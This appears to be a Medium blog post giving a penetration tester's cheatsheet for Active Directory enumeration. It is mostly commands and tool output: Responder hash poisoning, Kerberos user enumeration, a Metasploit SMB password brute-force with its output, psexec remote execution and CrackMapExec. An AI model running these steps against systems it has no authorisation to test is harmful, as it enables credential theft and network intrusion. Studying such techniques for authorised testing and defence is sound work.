

Enumerating AD infrastructure. First Things First | by mohit panwar | Medium

# Enumerating AD infrastructure

[mohit panwar](https://medium.com/@Shorty420?source=post_page-----98e0821c4c78----------------------)

[Dec 13, 2018](https://medium.com/@Shorty420/enumerating-ad-98e0821c4c78?source=post_page-----98e0821c4c78----------------------) · 4 min read

**> First Things First**
###############
**Discover the endpoints in the network**
> ­Nmap -script broadcast-dhcp-discover
> ­Nbtscan <Network subnet>
— — —
**Attack Surface scanning**

A pentester should always scan/test hosted applications/services to get into the domain infrastructure. Hacking Domain Services is one part of the story but testing any Web Application and/or any other listening port on the server is also important.

> ­Nmap -sC -sV -p- target/network-subnet -oA <dir>
— — —
**DNS scan**

This will give you a Fully Identifiable Domain Name (FQDN) for the IP address and other information about the roles of the target machine.

> ­Dig -t SRV _gc._tcp.<domain fqdn>
> Dig -t SRV _ldap._tcp.<domain fqdn>
> Dig -t SRV _kerberos._tcp.<domain fqdn>
> Dig -t SRV _kpasswd._tcp.<endpoint fqdn>

> ­Nmap — script dns-srv-enum –script-args “dns-srv-enum.domain=’<domain fqdn>’”

— — —
**NetBIOS and LLMNR poisoning:**

You might be very lucky to sniff any NT/NTLM hashes with Responder. Once you have the hast, feed it to the hashcat program [as mentioned in this blog](https://medium.com/@mohitpanwaraws/kerberoasting-9108477279cc) or use it with Empire to do pass-the-hash.

> ­Responder -I eth0 -wrf
###############
**> Getting AD Specific Info**
###############
**Anonymous/Credentialed LDAP data dump**

If you are using Windows for your recon, use [LDAP](http://www.ldapadmin.org/) tool to do Anonymous/Credentialed LDAP data dump or use ldapsearch in kali as mentioned below:

> ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’
— — —
**Netbios:**

Identify NetBIOS names of the endpoints. This will give you a Fully Identifiable Domain Name (FQDN) for the IP address.

> Windows # Nbtstat -a <IP>
> Linux # Nmblookup -A <IP>
— — —
**Enumerating Users:**
> ­Enum4linux -a <IP> or
> Enum4linux -u administrator -p password -a target-ip
Try using anonymous login for RPC login.
> ­Rpcclient -U “” -N <IP>

> ­Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=’<domain>’,userdb=/root/Desktop/usernames.txt <IP>

PORT STATE SERVICE REASON
88/tcp open kerberos-sec syn-ack

| krb5-enum-users:
| Discovered Kerberos principals
| administrator@test
| mysql@test

|_ tomcat@test

> Using bruteforce on Kerberos using metasploit can be very efficient but time consuming. You can use this as a last resort.

> msf > use Auxiliary/gather/Kerberos_enumusers

Username brute-force with Kerberos.

You can also use GetADUsers.py from [Impacket](https://github.com/SecureAuthCorp/impacket)to enumerate all users on the server if you have valid credentials with you.

> GetADUsers.py -all <domain\User> -dc-ip <DC_IP>
— — —
**Password Bruteforce:**
> ­Auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > set PASS_FILE /usr/share/wordlists/ rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt
msf auxiliary(smb_login) > set USER_FILE /root/Desktop/users.txt
USER_FILE => /root/Desktop/users.txt
msf auxiliary(smb_login) > set RHOSTS 192.168.1.2-10
RHOSTS => 192.168.1.2-10
msf auxiliary(smb_login) > set THREADS 8
THREADS => 8
msf auxiliary(smb_login) > set VERBOSE false
VERBOSE => false
msf auxiliary(smb_login) > run

[-] 192.168.1.2 - FAILED LOGIN (Windows 7 Enterprise 7600) Administrator : (STATUS_ACCOUNT_DISABLED)

[*] 192.168.1.2 - GUEST LOGIN (Windows 7 Enterprise 7600) dale :

[+] 192.168.1.2 - SUCCESSFUL LOGIN (Windows 7 Enterprise 7600) 'Administrator' : 's3cr3t'

[+] 192.168.1.3 - SUCCESSFUL LOGIN (Windows 7 Enterprise 7600) 'Administrator' : 's3cr3t'

[*] Scanned 7 of 9 hosts
[*] Auxiliary module execution completed
msf auxiliary(smb_login) >
> ­Kinit_horizontal_brute.sh <domain> <IP> <username file> <password>
— — —
**Exploring SMB shares**
List out all the available shared paths on the Target server.
> ­smbclient -L \\Domain_Name -I <DC_IP> -N

Check if any of the shared paths is writable. If any shared path is writable with known account credential, we can use Psexec for Remote command execution.

> smbclient //<share path> -I <DC_IP> -N
­

If any path is writable, move directly to the exec.py from [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) withe below

> python /opt/impacket/examples/psexec.py <domain/user>:<password>@<server ip>

Using [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)(CME) to enumerate shares. CME is a very useful framework to automate enumeration and post exploitation. Wait for upcoming series for automating AD enumeration for more.

> crackmapexec <IP> -u ‘<domain\username>’ -p ‘<password>’ --local-auth --shares

###############

**Important note: If any of the above test gives a negative result, keep an eye on your Wireshark traffic. Mostly setting up static DHCP or DNS or Gateway IP address solves such issues. This is a very small thing to underestimate which will affect the pentest in a peculiar way.**

###############
Shout Outs:

[ ## CrackMapExec - Cheatsheet   ### For more information on how to use CrackMapExec Check out our ultimate Guide. For installation Check the GitHub Repo…    #### www.ivoidwarranties.tech](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)

[ ## Automating the Empire with the Death Star: getting Domain Admin with a push of a button   ### Ever since Empire and BloodHound, pentesting Active Directory has become pretty straight forward for 95% of the…    #### byt3bl33d3r.github.io](https://byt3bl33d3r.github.io/automating-the-empire-with-the-death-star-getting-domain-admin-with-a-push-of-a-button.html)

[ ## Welcome to PentestGodMod documentation! - Ptest Method 1 documentation   ### Always keep in mind when you have a problem just launch a search over internet about it, 99 % of the time the comunity…    #### pentestgodmod.readthedocs.io](https://pentestgodmod.readthedocs.io/en/latest/)

[ ## Kerberoasting Without Mimikatz   ### Just about two years ago, presented a new attack technique he christened " Kerberoasting ". While we didn't realize the…    #### www.harmj0y.net](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)